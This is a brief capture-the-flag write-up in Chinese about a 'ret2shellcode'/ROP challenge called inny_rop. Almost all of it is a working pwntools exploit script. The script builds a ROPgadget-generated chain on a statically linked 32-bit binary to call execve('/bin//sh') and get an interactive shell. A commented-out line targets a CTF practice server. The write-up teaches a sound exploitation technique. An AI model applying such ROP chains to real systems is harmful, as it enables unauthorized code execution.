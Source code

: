 ## ret2shellcode

### inny_rop

静态链接题目，可以使用ropchain自动生成shellcode

![image-20240523163431554](http://image.shangu127.top/img/2024/03/image-20240523163431554.png)

```
ROPgadget --binary ./rop --ropchain
```

```python
from pwn import *
from struct import pack
context(os='linux',arch='i386',log_level='debug')
#ROPgadget --binary ./rop --ropchain
# io = remote("node5.buuoj.cn",25379)
io = process("./pwn")
p = b's'* 16
p += pack(b'<I', 0x0806ecda) # pop edx ; ret
p += pack(b'<I', 0x080ea060) # @ .data
p += pack(b'<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack(b'<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack(b'<I', 0x0806ecda) # pop edx ; ret
p += pack(b'<I', 0x080ea064) # @ .data + 4
p += pack(b'<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

io.sendline(p)
io.interactive()
```
